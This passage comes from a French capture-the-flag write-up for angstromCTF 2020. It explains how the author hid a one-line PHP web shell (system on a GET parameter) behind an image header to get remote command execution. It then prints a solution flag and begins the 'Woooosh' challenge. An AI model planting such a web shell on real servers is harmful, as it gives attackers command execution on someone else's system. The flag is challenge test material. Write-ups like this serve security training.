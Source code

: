 Pour cela, j'ai simplement pris une image qui trainais dans mes fichiers, j'ai supprimer tout le contenu afin de ne garder que le header, et j'ai ensuite écris mon script PHP ci-dessous:
```php
<?php
    echo system($_GET['command']);
?>
```
Avec ce script, je suis capable d'exécuter n'importe quelle commande sur le filesystem en utilisant la paramètre `?commande=<command>` lors d'une requête.  

![Challenge](/img/angstrom_2020_crypt.png){: .center-image}

FLAG: `actf{th3_ch4ll3ng3_h4s_f4ll3n_but_th3_crypt_rem4ins}`

## Woooosh
> **DESCRIPTION**: Clam's tired of people hacking his sites so he spammed obfuscation on his [new game](https://woooosh.2020.chall.actf.co/). I have a feeling that behind that wall of obfuscated javascript there's still a vulnerable site though. Can you get enough points to get the flag? I also found the [backend source](https://files.actf.co/188f275d11eb621ad7308044f1af1bcbddc353335773e9201b4af88d9306b745/index.js).
>
> Second instance: [https://wooooosh.2020.chall.actf.co/](https://wooooosh.2020.chall.actf.co/)

Dans ce challenge, on doit réussir à marquer plus de 20 points sur le jeu. Le but étant de parvenir à trouver le cercle au milieu d'un amas de carré le plus de fois possible dans un temps imparti.  

![Challenge](/img/angstrom_2020_woosh.png){: .center-image}
Le javascript étant obfusqué, les sources nous sont fournis dans l'énoncé du challenge.
```javascript
const express = require("express");
const exphbs = require("express-handlebars");
const socket = require("socket.io");
```